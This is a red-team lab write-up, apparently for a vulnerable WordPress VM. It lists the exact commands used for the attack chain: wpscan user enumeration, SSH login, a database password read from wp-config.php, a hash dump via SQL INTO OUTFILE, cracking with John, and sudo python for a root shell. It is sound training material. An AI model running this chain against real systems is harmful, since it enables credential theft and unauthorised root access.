 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -sC  -O 192.168.1.110

$ nmap -Pn --script vuln 192.168.1.110 

![Vulnerabilities found with the scan](Vulnerabilities1.png)

![Vulnerabilities found with the scan](Vulnerabilities2.png)

The Scan exposed the ports 22 and 80 for possible entry and also showed the potentially interesting directories in the wordpress
```
This Gave us the following Vulnerabilities in Target 1

Enumerate the users with wordpress
Weak Passwords
Unprotected and Unsalted Hashes
Priveldge Escalation


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

We used nmap and were able to get the IP addresses of the VM's in the network, and the exposed ports that were 22(SSH) and 80(HTTP) and then we knew we would try to get access to the network through these ports

Using the word press command 

wpscan --url 192.168.1.110 --enumerate -u

we were able to get access to the view 2 users and these were Michael and Steven

![WP SCAN USERS](Users.png)


We then noted that ssh port was available and were able to use the ssh command and gain access to michael's account

![FLAG 2 acess to Micheals Account](FLAG2.png)

we then looked for the MYSQL database password and found wp-config.php and and the password was R@v3nSecurity

![SQL Password](SQLpass.png)

we used the credentials to gain access to the mysql database

MYSQL -u root -p

show database;

use wordpress
show tables;
describe wp_users;
select concat_ws (':', user_login, user_pass) from wp_users into outfile '/var/www/html/wordpress/wp_hashes.txt

I then transferred the file to Kali Linux VM using the command

scp michael@192.168.1.110:/var/www/html/wordpress/wp_hashes.txt /etc

![Weak Hashes](weakhashes.png)



![Flag 3](Flag3.png)

then I run John on the wp_hashes.txt and acquired the password for the user steven

![the password for steven using John the ripper](John.png)


we then secured a user shell to the account of steven

ssh steven@192.168.1.110 

Then used the python script to gain access to the root of the target machine

python -c 'import pty; pty.spawn("/bin/bash")'

sudo python -c 'import pty; pty.spawn("/bin/bash")'

With this we were able to get Flag 4

![Flag 4](Flag4.png)










